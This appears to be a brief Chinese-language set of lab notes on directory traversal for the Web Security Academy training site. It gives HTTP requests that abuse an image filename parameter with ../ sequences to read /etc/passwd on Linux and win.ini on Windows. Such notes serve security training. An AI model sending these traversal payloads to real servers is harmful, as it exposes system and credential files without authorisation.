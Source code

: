 # 目录遍历

可能存在于图像链接中

```http
GET /image?filename=58.jpg HTTP/2
Host: web-security-academy.net


```

注入点

```
filename=§58.jpg§
```

猜测文件所在路径

```
/var/www/html/image/
```

linux 读取密码文件

```http
GET /image?filename=../../../../etc/passwd HTTP/2
Host: web-security-academy.net


```

windows 读取配置文件

```http
GET /image?filename=..\..\..\windows\win.ini HTTP/2
Host: web-security-academy.net


```

